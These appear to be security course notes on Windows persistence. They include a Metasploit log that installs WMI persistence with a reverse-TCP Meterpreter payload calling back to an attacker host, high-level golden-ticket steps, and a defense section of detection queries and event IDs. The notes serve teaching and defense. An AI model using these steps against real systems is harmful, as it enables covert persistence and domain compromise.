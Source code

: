 ### WMI Event Subscription

```
C:\Temp> mofcomp wmi.mof
Parsing MOF file: wmi.mof
Done!
```

By default Meterpreter's `wmi_persistence` will make a hook for reestablishing, for specific failed logons, adding a delay of msec, after the logon failure

```
meterpreter > background
[*] Backgrounding session 2...
msf6 > use exploit/windows/local/wmi_persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/wmi_persistence) > set session 2
msf6 exploit(windows/local/wmi_persistence) > set lhost eth0
msf6 exploit(windows/local/wmi_persistence) > set username_trigger josh
msf6 exploit(windows/local/wmi_persistence) > set callback_interval 1000
msf6 exploit(windows/local/wmi_persistence) > exploit
[*] Installing Persistence...
[+] Persistence installed! Call a shell using "smbclient \\\\10.10.0.1\\C$ -   <------- NOTE
U josh <arbitrary password>"
[*] Clean up Meterpreter RC file:
/home/sec504/.msf4/logs/wmi_persistence/10.10.0.1_20210622.1735/10.10.0.1_20
210622.1735.rc
```

### Kerberos

1. Compromise DC: exploit domain admin or get compromised backup
2. Get password hash for user `krbtgt`
3. Mimikatz or Impacket let us t oforge TGT using krbtgt password hash
4. TGT bypasses Kerberos authentication

### Webshell

### Defense

#### Windows

- Event subscriptions that contain queries: `Get-WMIObject -Namespace root\Subscription -Class __EventFilter | fl -property query`
- `Autoruns` for auto-start programs
- Monitor Windows Events:
  - 4624: An account was successfully logged on
  - 4634: An account was logged off
  - 4672: Special privileges assigned to new logon
  - 4732: A member was added to a security-enabled local group
  - 4648: A logon was attempted using explicit credentials
  - 4688: A new process has been created
  - 4697: A service was installed in the system
  - 4768: A Kerberos authentication ticket (TGT) was requested
